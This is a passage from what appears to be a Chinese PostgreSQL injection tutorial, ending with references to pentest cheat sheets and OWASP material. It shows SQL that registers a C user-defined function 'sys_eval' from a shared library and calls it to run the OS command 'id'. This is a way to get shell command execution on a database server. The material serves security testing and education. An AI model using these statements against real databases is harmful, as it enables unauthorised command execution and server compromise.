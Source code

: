 f）建立UDF  
  
```  
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;  
```  
  
g）调用这个UDF  
  
```  
select sys_eval('id');  
```  
  
![pic](20180201_03_pic_008.jpg)  
  
  
也许服务器没装PostgreSQL的Perl、Python支持，但是C库是通用的。  
  
  
  
## 参考  
[1]PostgreSQL SQL Injection Cheat Sheet  
  
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet  
  
[2]OWASP Backend Security Project Testing PostgreSQL  
  
https://www.owasp.org/index.php/OWASP_Backend_Security_Project_Testing_PostgreSQL  
  
[3]PostGreSQL注入学习(续篇)：http://www.2cto.com/Article/200910/41874.html  
  
[4]PostgreSQL Adminpack  
  
http://www.postgresql.org/docs/8.4/static/adminpack.html  
  
[5]PostgreSQL 外部动态连接库魔法块的使用：http://www.2cto.com/database/201307/226575.html  
  
[6]Chapter 37. Procedural Languages  
  
http://www.postgresql.org/docs/8.3/static/xplang.html  
  
[7]postgresql "初级"注入大法：http://www.2cto.com/Article/201211/167435.html  
  
[8]pg_largeobject  
  
http://www.php100.com/manual/PostgreSQL8/catalog-pg-largeobject.html  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  